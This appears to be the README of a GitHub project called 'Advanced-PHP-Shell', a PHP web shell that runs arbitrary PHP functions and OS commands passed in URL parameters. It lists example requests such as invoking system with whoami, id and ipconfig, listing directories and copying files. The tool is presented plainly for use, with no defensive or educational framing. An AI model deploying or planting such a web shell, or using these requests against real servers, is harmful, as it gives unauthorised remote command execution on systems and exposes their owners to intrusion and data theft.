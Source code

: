 # Advanced-PHP-Shell
Allow to use native PHP functions and OS commands

# Usage:

* f=  PHP Function
* p1= First parameter
* p2= Second parameter

# Example:
* advsh.php?f=getcwd
* advsh.php?f=scandir&p1=..
* advsh.php?f=system&p1=whoami
* advsh.php?f=system&p1=id
* advsh.php?f=system&p1=ipconfig
* advsh.php?f=hash&y=teste&p1=sha256
* advsh.php?f=copy&p1=teste.php&p2=teste.bkp
* and much more...
